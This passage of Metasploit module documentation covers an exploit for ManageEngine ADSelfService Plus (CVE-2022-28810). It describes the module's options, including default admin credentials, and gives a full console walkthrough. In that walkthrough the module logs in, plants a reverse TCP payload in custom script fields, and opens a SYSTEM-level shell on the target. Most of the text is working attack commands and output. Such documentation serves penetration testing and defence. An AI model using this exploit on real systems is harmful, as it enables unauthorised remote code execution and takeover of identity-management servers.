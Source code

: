 ## Options

### USERNAME

The ManageEngine ADSelfService Plus administrator's username ("admin" by default).

### PASSWORD

The ManageEngine ADSelfService Plus administrator's password ("admin" by default).

## TARGET_RESET

If set to true, instead of dropping a payload into the custom scripts fields, the module
will disable custom scripts and clear the custom scripts field. If set to false, the module
will enable custom scripts and insert the configured payload.

## Scenarios

### Successful exploitation of ADSelfService Plus 6121 on Windows 10 over HTTP

```
msf > use exploit/windows/http/manageengine_adselfservice_plus_cve_2022_28810
[*] Using configured payload cmd/windows/jjs_reverse_tcp
msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set RHOST 10.0.0.20
RHOST => 10.0.0.20
msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > check
[*] 10.0.0.20:8888 - The target appears to be vulnerable. This determination is based on the version string: 6121.
msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > run
[*] Exploit running as background job 0.

[*] Running automatic check ("set AutoCheck false" to disable)
msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > [+] The target appears to be vulnerable. This determination is based on the version string: 6121.
[+] Authentication successful
[*] Requesting policy list from /ServletAPI/configuration/policyConfig/getPolicyConfigDetails
[*] Requesting policy details for okhuman.ninja
[*] Enabling custom scripts and inserting the payload
[*] Posting updated policy configuration to /ServletAPI/configuration/policyConfig/setAPCDetails
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.0.0.2:4444 

msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > 
msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > 
msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > [*] Command shell session 1 opened (10.0.0.2:4444 -> 10.0.0.20:49940 ) at 2022-04-19 08:47:28 -0700

msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > sessions 1
[*] Starting interaction with 1...


Shell Banner:
M
-----
          

C:\ManageEngine\ADSelfService Plus\bin>whoami
whoami
nt authority\system
```

[Getting Started]: https://www.manageengine.com/products/self-service-password/help/admin-guide/gettingstarted/getting-started.html
[ManageEngine_ADSelfService_Plus_64bit.exe]: https://archives2.manageengine.com/self-service-password/6121/ManageEngine_ADSelfService_Plus_64bit.exe
